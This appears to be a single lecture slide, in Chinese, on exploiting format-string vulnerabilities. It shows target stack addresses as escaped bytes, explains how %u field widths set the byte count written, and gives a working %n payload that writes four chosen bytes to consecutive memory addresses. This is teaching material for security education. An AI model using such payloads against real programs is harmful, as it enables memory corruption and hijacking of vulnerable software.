

# 漏洞的基本利用方法
重写内存数据
使用纯格式化字符串：
    综合前几步操作，向4个连续的地址单元写入数据：BCDE （方法2）
\x6b\xef\xff\xbf
注意：%u最少输出10个字节，所以对于 %1u，%2u，……，%10u，其效果是一样的。
假如想输出m个字节（m<=10），则应当使用%(m+256)u。这样的话最后写入的结果会向高位进1。
\x01\x01\x01\x01\x6c\xef\xff\xbf
\x01\x01\x01\x01\x6d\xef\xff\xbf
\x01\x01\x01\x01\x6e\xef\xff\xbf

_%08x.%08x.%19u%n_%256u%n_%256u%n_%256u%n